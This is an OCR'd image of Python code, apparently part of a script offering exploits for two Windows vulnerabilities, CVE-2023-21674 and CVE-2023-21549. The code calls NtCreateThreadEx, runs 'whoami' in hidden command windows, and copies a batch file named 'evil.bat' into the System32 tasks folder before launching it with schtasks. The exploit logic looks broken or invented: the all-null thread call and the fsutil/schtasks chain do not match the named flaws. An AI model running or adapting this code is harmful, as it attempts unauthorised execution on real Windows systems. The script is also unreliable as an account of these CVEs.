 ```python
        NtCreateThreadEx.argtypes = [ctypes.POINTER(ctypes.wintypes.HANDLE), ctypes.c_uint32, ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID)]
        NtCreateThreadEx.restype = ctypes.c_long

        thread_handle = ctypes.wintypes.HANDLE()
        result = NtCreateThreadEx(ctypes.byref(thread_handle), 0, None, None, None, None, None, None, None, None, None, None, None)

        if result == 0:
            print("[INFO] CVE-2023-21674: Thread successfully created.")
            time.sleep(1)

            if output_dir is None:
                output_dir = tempfile.mkdtemp()
            output_filename = generate_random_filename() + ".txt"
            output_path = os.path.join(output_dir, output_filename)

            for _ in range(3):
                subprocess.run(["cmd.exe", "/c", f"whoami > {output_path}"], capture_output=True, creationflags=subprocess.CREATE_NO_WINDOW)
                if os.path.exists(output_path):
                    break
                time.sleep(0.5)

            if os.path.exists(output_path):
                with open(output_path, "r") as f:
                    output_content = f.read()
                    print(f"[INFO] CVE-2023-21674: Output: {output_content.strip()}")
                os.remove(output_path)
            else:
                print("[ERROR] CVE-2023-21674: Output not captured after multiple attempts.")
        else:
            print("[ERROR] CVE-2023-21674: Thread creation failed.")

        if output_dir is not None:
            remove_temp_files(output_dir)

    except Exception as e:
        print(f"[ERROR] CVE-2023-21674: Error: {e}")

def exploit_cve_2023_21549():
    """Exploits CVE-2023-21549."""
    try:
        temp_file = tempfile.NamedTemporaryFile(delete=False)
        temp_file_path = temp_file.name
        temp_file.write(b'whoami > C:\\Windows\\Temp\\cve_2023_21549_output.txt')
        temp_file.close()

        command = f'fsutil resource setautoreset true C:\\ && copy /y "{temp_file_path}" C:\\Windows\\System32\\tasks\\evil.bat && schtasks /run /tn evil'
        subprocess.run(command, shell=True, check=True, creationflags=subprocess.CREATE_NO_WINDOW)

        time.sleep(2)

        output_path = 'C:\\Windows\\Temp\\cve_2023_21549_output.txt'

        if os.path.exists(output_path):
            with open(output_path, 'r') as f:
                output = f.read()
```